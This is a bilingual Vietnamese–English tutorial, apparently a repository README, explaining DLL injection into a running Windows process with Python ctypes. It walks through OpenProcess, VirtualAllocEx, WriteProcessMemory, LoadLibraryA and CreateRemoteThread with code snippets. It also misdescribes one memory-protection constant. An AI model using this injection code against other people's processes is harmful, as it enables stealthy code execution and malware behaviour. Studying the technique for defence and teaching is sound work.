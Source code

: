 # DLL INJECTION
### Các bước tiến hành DLL Injection - Steps to perform DLL Injection
   - Tấn công tiến trình - Attach to the process 
   - Phân bổ bộ nhớ chứa tiến trình - Allocate memory within the process
   - Chép đường dẫn DLL vào bộ nhớ tiến trình - Copy the DLL path into process memory    
   - Tạo luồng với tiến trình để thực thi DLL - Create a thread within the process to execute your DLL
### Danh sách API sử dụng - List APIs
- OpenProcess()
- VirtualAllocEx()
- WriteProcessMemory()
- LoadLibraryA()
- CreateRemoteThread(), NtCreateThreadEx, etc.
### Win32 API
- Tạo cách định nghĩa cho hàm muốn gọi 
We’ll create definitions for the functions we want to call.

```
kernel32 = ctypes.windll.kernel32

LPCTSTR = ctypes.c_char_p 
SIZE_T = ctypes.c_size_t

OpenProcess = kernel32.OpenProcess
OpenProcess.argtypes = (ctypes.wintypes.DWORD, ctypes.wintypes.BOOL, ctypes.wintypes.DWORD)
OpenProcess.restype = ctypes.wintypes.HANDLE

VirtualAllocEx = kernel32.VirtualAllocEx
VirtualAllocEx.argtypes = (ctypes.wintypes.HANDLE, ctypes.wintypes.LPVOID, SIZE_T, ctypes.wintypes.DWORD, ctypes.wintypes.DWORD)
VirtualAllocEx.restype = ctypes.wintypes.LPVOID

WriteProcessMemory = kernel32.WriteProcessMemory
WriteProcessMemory.argtypes = (ctypes.wintypes.HANDLE, ctypes.wintypes.LPVOID, ctypes.wintypes.LPCVOID, SIZE_T, ctypes.POINTER(SIZE_T))
WriteProcessMemory.restype = ctypes.wintypes.BOOL

GetModuleHandle = kernel32.GetModuleHandleA
GetModuleHandle.argtypes = (LPCTSTR, )
GetModuleHandle.restype = ctypes.wintypes.HANDLE

GetProcAddress = kernel32.GetProcAddress
GetProcAddress.argtypes = (ctypes.wintypes.HANDLE, LPCTSTR)
GetProcAddress.restype = ctypes.wintypes.LPVOID

class _SECURITY_ATTRIBUTES(ctypes.Structure):
    _fields_ = [('nLength', ctypes.wintypes.DWORD),
                ('lpSecurityDescriptor', ctypes.wintypes.LPVOID),
                ('bInheritHandle', ctypes.wintypes.BOOL)]

SECURITY_ATTRIBUTES = _SECURITY_ATTRIBUTES
LPSECURITY_ATTRIBUTES = ctypes.POINTER(_SECURITY_ATTRIBUTES)
LPTHREAD_START_ROUTINE = ctypes.wintypes.LPVOID


CreateRemoteThread = kernel32.CreateRemoteThread
CreateRemoteThread.argtypes = (ctypes.wintypes.HANDLE, LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, ctypes.wintypes.LPVOID, ctypes.wintypes.DWORD, ctypes.wintypes.LPDWORD)
CreateRemoteThread.restype = ctypes.wintypes.HANDLE

MEM_COMMIT = 0x0001000
MEM_RESERVE = 0x00002000
PAGE_READWRITE = 0x04
EXECUTE_IMMEDIATELY = 0x0
PROCESS_ALL_ACCESS = (0x000F0000 | 0x00100000 | 0x00000FFF)
```
### OpenProcess()
- Sử dụng OpenProcess để trả về 1 handle để xử lí tiến trình chúng ta cần tương tác
We will use OpenProcess() to return a handle to the process so we can interact with it
```
handle = OpenProcess(PROCESS_ALL_ACCESS, False, pid)
```
- OpenProcess() có 3 tham số - OpenProcess() takes three arguments.
    - dwDesiredAccess - Đây là quyền truy cập vào tiến trình. Để sử dụng WriteProcessMemory, handle phải có quyền PROCESS_VM_WRITE và PROCESS_VM_OPERATION vào tiến trình.
 (This is the access rights to the process. In order to use WriteProcessMemory, the handle must have PROCESS_VM_WRITE and PROCESS_VM_OPERATION access to the process.)
    - bInheritHandle -Nếu giá trị này là TRUE, thì tiến trình được tạo bởi quá trình này cũng sẽ kế thừa handle. Chúng ta không cần điều này vì vậy chúng ta đặt nó thành FALSE. 
    (If this value is TRUE, then the process created by this process will also inherit the handle. We don’t need this so we set it to false.)
   - dwProcessID - Đây là id của tiến trình 
   This is the process id of the process to be opened.
### VirtualAllocEx()
- VirtualAllocEx() lấy một lượng bộ nhớ để phân bổ các tham số của nó.
VirtualAllocEx() takes amount of memory to allocate as one of its parameters.
```
memory = VirtualAllocEx(handle, False, len(dllname) + 1, MEM_COMMIT | MEM_RESERVE, PAGE_READWRIT
E)
```

- VirtualAllocEx() có 5  tham số - VirtualAllocEx()takes five arguments.
     - hProcess - Đây là handle tiến trình. Hàm này sẽ phân bổ bộ nhớ trong không gian địa chỉ ảo của tiến trình.
     This is the handle to the process. The function will allocate memory within the virtual address space of this process.
    - lpAddress - Đây là một con trỏ tới địa chỉ bắt đầu của vùng trang bạn muốn phân bổ. Nếu là NULL, hàm sẽ xác định vị trí cấp phát vùng.
    This is a pointer to the starting address of the region of pages you want to allocate. If this is NULL, the function will determine where to allocate the region.
    - dwSize - Đây là kích thước của vùng bộ nhớ để phân bổ, tính bằng byte. Chúng ta sẽ phân bổ không gian cho đường dẫn đầy đủ của DLL.
    This is the size of the region of memory to allocate, in bytes. We will allocate space for the full path of the DLL.
    - flAllocationType and flProtect - cho biết loại phân bổ và bảo vệ bộ nhớ, chúng ta dùng 0x3000 cho loại phân bổ sẽ gọi VirtualAllocEx với MEM_RESERVE và MEM_COMMIT. 0x40 chỉ ra rằng bộ nhớ có thể đọc và ghi được.
    This indicates the allocation type and memory protection. We will use 0x3000 for the allocation type which will call VirtualAllocEx with MEM_RESERVE and MEM_COMMIT. 0x40 indicates that the memory is readable and writable.
### WriteProcessMemory()
Chép đường dẫn DLL vào tiến trình.  
Now we will copy the DLL path into the process. We can use WriteProcessMemory to do so.
```
write = WriteProcessMemory(handle, memory, dllname, len(dllname) + 1, None)
```
### LoadLibraryA() và CreateRemoteThread() 
- Tới đây chúng ta có DLL đã viết vào tiến trình đích, chúng ta bắt đầu một luồng mới để thực thi file DLL
Now that we have our DLL written to the remote process, we can start a new thread to load our DLL. 
- Đầu tiên cần xác định vị trí của LoadLibrary(). Để làm được chúng ta cần GetProcAddress và GetModuleHandle.
First,we need to find the location of LoadLibrary(). To do so, we’ll use GetProcAddress and GetModuleHandle.
- GetProcAddress sẽ truy xuất địa chỉ của hàm hoặc biến đã xuất từ tệp DLL.
GetProcAddress will retrieve the address of an exported function or variable from a DLL. 
- GetModuleHandle sẽ truy xuất handle module tới module đã chỉ định 
GetModuleHandle to retrieve a module handle to a specified module.
```
load_lib = GetProcAddress(GetModuleHandle(b"kernel32.dll"), b"LoadLibraryA")
```
- Chúng ta đã có địa chỉ load library. Việc cần làm tiếp theo là tạo một luồng tới DLL đã tải lên. 
We have the load library address now, all we need to do is to create a thread to execute the loaded DLL.

./dll_injec.py -p <PID> -f <PATH_TO_DLL>
